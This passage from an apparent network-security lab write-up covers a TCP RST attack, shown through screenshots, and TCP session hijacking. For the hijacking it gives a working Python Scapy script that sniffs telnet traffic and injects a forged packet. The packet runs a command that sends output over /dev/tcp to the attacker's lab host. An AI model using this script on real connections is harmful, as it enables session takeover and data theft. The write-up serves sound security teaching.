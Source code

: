     Since I am sniffing connections from the server, to use the correct sequence number, the new sequence number will equal the sniffed packet sequence number plus the sniffed packet payload size. Choosing the wrong sequence number will cause the attack to fail.

***TCP RST attack program***

![rst-2-code](https://github.com/iukadike/iukadike.github.io/assets/58455326/2613cc36-cd83-4cac-83a7-3e4dda093f59)

***TCP RST attack client***

![rst-2-telnet](https://github.com/iukadike/iukadike.github.io/assets/58455326/3250f664-b330-4bb5-b8b4-6679fea54bea)

***TCP RST attack wireshark***

![rst-2-wireshark](https://github.com/iukadike/iukadike.github.io/assets/58455326/8f959932-932e-4ac8-92bf-fa1260672e74)

From the Wireshark capture, you will notice that there are several `RST` packets sent. This is due to the speed of the program. Before the Python program can take action on a packet sniffed, the programs have moved past that sequence number.

<br>

### TCP Session Hijacking
When a TCP three-way handshake is complete, a TCP session is established. A bad actor can inject commands into a TCP session, thereby taking over that TCP session. A bad actor can send arbitrary commands to the server masquerading as the client.

The following are important for the attack to succeed:
- IP source address
- IP destination address
- TCP source port
- TCP destination port
- TCP sequence number
- TCP acknowledgment number
- TCP flags
- TCP payload

```python
#!/usr/bin/env python3
from scapy.all import *

def send_cmd(pkt):
    if not pkt[IP][TCP].payload:
        newpkt = IP() / TCP() / Raw(load = '\rw > /dev/tcp/10.9.0.1/9090\r')
        newpkt[IP].src = pkt[IP].src
        newpkt[IP].dst = pkt[IP].dst
        newpkt[TCP].sport = pkt[TCP].sport
        newpkt[TCP].dport = pkt[TCP].dport        
        newpkt[TCP].flags = 'PA'
        newpkt[TCP].seq = pkt[TCP].seq
        newpkt[TCP].ack = pkt[TCP].ack
        send(newpkt, verbose=0)
        print('injected payload...')
    
sniff(iface = 'br-fee11e059dc7', filter = 'tcp dst port 23 && (not ether host 02:42:e4:2c:cc:83)', prn = send_cmd)
```

